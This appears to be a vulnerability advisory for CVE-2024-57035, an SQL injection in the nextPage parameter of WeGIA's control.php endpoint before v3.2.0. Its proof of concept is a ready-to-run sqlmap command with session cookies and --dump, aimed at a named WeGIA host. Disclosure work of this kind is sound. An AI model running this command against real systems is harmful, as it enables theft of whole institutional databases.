


## CVE-2024-57035: SQL Injection Vulnerability in `nextPage` Parameter on `control.php` Endpoint

> *CVE Publication: https://www.cve.org/CVERecord?id=CVE-2024-57035*

## Vendor

<p style="text-align: justify;"> WeGIA (Web Gerenciador Institucional) is an integrated management system licensed under the GNU GPL v3.0, designed to enhance administration, control, and transparency for institutions. </p>

[https://www.wegia.org](https://www.wegia.org/)

[https://sol.sbc.org.br/index.php/latinoware/article/view/31544](https://sol.sbc.org.br/index.php/latinoware/article/view/31544)

## Affected Product Code Base

WeGIA < v3.2.0

## Vulnerability Description

<p style="text-align: justify;">A SQL Injection vulnerability was identified in the endpoint <code>/control.php</code>, specifically in the parameter <code>nextPage</code>. This vulnerability allows the execution of arbitrary SQL commands, compromising the confidentiality, integrity, and availability of the database.</p>

## POC

### Using SQL Map:

````console
  sqlmap -u "https://comfirewall.wegia.org:8000/WeGIA/controle/control.php?metodo=listarUm&nomeClasse=SaudeControle&nextPage=../html/saude/profile_paciente.php?id_fichamedica=1&id=1" --dbms=mysql --cookie="_ga_F8DXBXLV8J=GS1.1.1733782455.11.1.1733782568.60.0.0; _ga=GA1.1.552051356.1730893405; PHPSESSID=tc79og6t5lr33d4tjv7ct1o9pg" --dump
````


### Using sqlmap an attacker could dump the entire database information from WeGIA.



## References

[https://github.com/nilsonLazarin/WeGIA/issues/827](https://github.com/LabRedesCefetRJ/WeGIA/issues/827)

[https://www.wegia.org](https://www.wegia.org/)

[https://github.com/LabRedesCefetRJ/WeGIA/](https://github.com/LabRedesCefetRJ/WeGIA/)

## Discoverer

[](https://www.linkedin.com/in/nmmorette) [Natan Maia Morette](https://www.linkedin.com/in/nmmorette) 

> *By: [CVE-Hunters](https://github.com/Sec-Dojo-Cyber-House/cve-hunters)*